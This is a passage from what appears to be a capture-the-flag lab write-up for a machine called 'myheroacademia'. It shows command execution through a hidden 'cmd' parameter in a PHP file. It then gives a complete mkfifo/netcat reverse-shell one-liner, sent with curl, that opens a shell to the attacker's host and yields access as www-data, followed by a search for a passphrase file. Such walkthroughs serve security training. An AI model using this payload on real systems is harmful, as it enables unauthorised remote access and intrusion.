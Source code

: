 With this, we discover the `cmd` parameter, and making the same request with `curl`, we get a `base64` encoded response.

```console
$ curl -s 'http://10.10.74.25/assets/index.php?cmd=id'
dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
```

Decoding the response we got from `base64`, we see the output of the command we passed.

```console
$ curl -s 'http://10.10.74.25/assets/index.php?cmd=id' | base64 -d
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It seems we are able to execute commands with the `cmd` parameter; we can use this to get a shell.

First, starting our listener to catch the reverse shell.

```console
$ nc -lvnp 443
```

Sending our reverse shell payload with the `curl` command.

```console
$ curl -s 'http://10.10.74.25/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f'
```
{: .wrap }

Looking back at our listener, we get a shell as `www-data`.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.74.25] 50580
bash: cannot set terminal process group (762): Inappropriate ioctl for device
bash: no job control in this shell
www-data@myheroacademia:/var/www/html/assets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as deku

Enumerating the file system, we discover the `Hidden_Content` directory inside `/var/www`.

```console
www-data@myheroacademia:/var/www$ ls -la
total 16
drwxr-xr-x  4 www-data www-data 4096 Dec 13  2023 .
drwxr-xr-x 14 root     root     4096 Jul  9  2023 ..
drwxrwxr-x  2 www-data www-data 4096 Jul  9  2023 Hidden_Content
drwxr-xr-x  3 www-data www-data 4096 Dec 13  2023 html
```

Inside the directory, there is a single file named `passphrase.txt`.

```console
www-data@myheroacademia:/var/www/Hidden_Content$ ls -la
total 12
drwxrwxr-x 2 www-data www-data 4096 Jul  9  2023 .
drwxr-xr-x 4 www-data www-data 4096 Dec 13  2023 ..
-rw-rw-r-- 1 www-data www-data   29 Jul  9  2023 passphrase.txt
```
